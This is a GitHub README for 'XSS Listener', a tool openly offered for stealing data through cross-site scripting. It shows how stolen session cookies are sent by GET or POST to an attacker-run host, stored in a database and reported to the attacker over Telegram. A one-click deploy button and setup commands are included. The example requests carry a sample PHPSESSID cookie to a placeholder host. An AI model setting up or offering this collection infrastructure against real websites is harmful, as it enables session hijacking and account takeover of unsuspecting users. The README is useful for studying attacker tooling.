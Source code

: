 ![logo](https://cagatay.js.org/spider.png)

### 🕷️ XSS Listener is a penetration tool for easy to steal data with various XSS.

From now on, you do not need XSS listeners! XSS listener records the data you have stolen on the remote site in the database, and gives instant notification with telegram.

[![Deploy](https://www.herokucdn.com/deploy/button.svg)](https://heroku.com/deploy?template=https://github.com/cagataycali/xss-listener)

### 🕸️ Know-How Background

* [What is XSS](https://www.owasp.org/index.php/Cross-site_Scripting_(XSS)

* [Steal cookie with XSS without redirecting to another page](https://security.stackexchange.com/questions/49185/xss-cookie-stealing-without-redirecting-to-another-page)

* [TR | How to use XSS](https://canyoupwn.me/tr-how-to-use-xss/)


### 🕸️ Listener Usage

Listener accepts all HTTP methods with parameters, then save database.
Example:
```
GET https://yourapp.com/?cookie=PHPSESSID=889c6594db2541db1666cefca7537373

or

POST https://yourapp.com/
Form: { cookie:'PHPSESSID=889c6594db2541db1666cefca7537373' }
```
You will notify by telegram bot.

![output](https://cagatay.js.org/output.png)
---

### 🕸️ Detailed Usage

<details>

#### 🕸️ List previous requests
```
https://yourapp.com/list
```

#### 🕸️ Delete previous request by id
```
https://yourapp.com/delete/[id]
```

#### 🕸️ Even you can use telegram

```
/list
```

```
/delete [id]
```

</details>


#### 🕸️ Run local environment

In terminal,

```shell
git clone https://github.com/cagataycali/xss-listener.git; # Clone
cd xss-listener; # Change directory.
npm install; # Install dependencies.
# Fill bot token and user id.
TELEGRAM_TOKEN=[BOT TOKEN] TELEGRAM_USER_ID=[USER ID] node index.js
```

#### License

MIT © [Çağatay Çalı](https://cagatay.me)
